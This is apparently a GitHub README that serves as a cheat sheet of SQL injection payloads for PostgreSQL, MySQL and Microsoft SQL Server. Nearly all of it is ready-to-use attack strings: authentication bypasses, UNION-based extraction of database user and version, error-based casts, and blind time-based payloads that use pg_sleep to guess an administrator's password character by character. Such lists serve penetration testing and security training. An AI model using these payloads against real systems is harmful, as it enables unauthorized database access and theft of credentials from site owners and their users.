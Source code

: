 # WebAppPayloadExamples
Brief example of various common web application vulnerability payloads. 
<h1>Injections</h1>
  <ul>
') OR 1=1 -- 

') OR ('a)'='a)

') OR 1=1 -- 

') UNION SELECT ALL @@version, system_user; -

') UNION SELECT user, 'b' --

<b>Postgress</b>

' OR 'a%'='a%

"' AND CAST(version() AS INT)=1 --"

'||(SELECT 'Shipping')||'

'||(SELECT version())||'

'||(SELECT user)||'

' UNION SELECT user, version() --

') UNION SELECT user, version() --

' UNION SELECT user, 'b' --

' UNION SELECT CAST(version() AS INT) --

Ste'||'ven

'||ver||'

'||(SELECT CASE WHEN SUBSTR(user, 1, 1) = 'n' THEN pg_sleep(10) ELSE pg_sleep(0) END)||'

||(SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users WHERE username='administrator' AND SUBSTRING(Password, 1, 1) = 'a')--

'||(SELECT CASE WHEN SUBSTR(user, 1, 1) = 'n' THEN pg_sleep(10) ELSE pg_sleep(0) END)||

<b>mysql</b>
Integer
') UNION SELECT user, version() --

100) UNION SELECT …
100 OR 1=1 --
100) OR 1=1 --
100 UNION SELECT user, 'b' --



1 OR 1=1
1 OR 'a'='a' -- 
(SELECT 3+3)
(SELECT CASE WHEN 1=1 THEN 1 ELSE 6 END)
(SELECT CASE WHEN SUBSTRING(@@version, 1, 1)='M' THEN 1 ELSE 2 END)
[IF ERRORS RETURNED]: (SELECT CASE WHEN convert(int,(SELECT @@version))=1 THEN 1 ELSE 2 END)

Integer MySQL
(SELECT CASE WHEN SUBSTRING(user(), 1, 1)='n' THEN 1 ELSE 9 END)-- -
(SELECT IF(SUBSTRING(@@version, 1, 1)='5',1,2))
't' OR (SELECT CASE WHEN substring(user() ,1,1)='n' THEN 1 ELSE 'error' END)
IF(SUBSTRING(@@version, 1, 1)='5',1,6)
(SELECT IF(1=1,1,2))
(SELECT IF(SUBSTRING(@@version, 1, 1)='5',1,2))

<b>Microsoft</b>
Microsoft SQL Displayed

'+(SELECT @@version)+'

Ship'+'ping

'+(SELECT 'Shipping')+'

'+(SELECT CURRENT_USER)+'

' OR 1=1 UNION SELECT USER, @@version --

INTEGER
100+OR++UNION+SELECT+user,+version()+--
(100)UNION+SELECT+@@version,user+--


Microsoft Blind

'+(SELECT CASE WHEN 1=1 THEN 'Shipping' ELSE 'NotADepartment' END)+'

'+(SELECT CASE WHEN SUBSTRING(@@version, 1, 1)='M' THEN 'Steven' ELSE 'notbob' END)+'

[IF ERRORS RETURNED]: '+(SELECT CASE WHEN convert(int,(SELECT @@version))=1 THEN 1 ELSE 2 END)+'

'+(SELECT CASE WHEN 1=1 THEN 'Steven" ELSE 'none' END)-- -

SELECT CAST((SELECT CURRENT_USER) AS int)

  </ul>
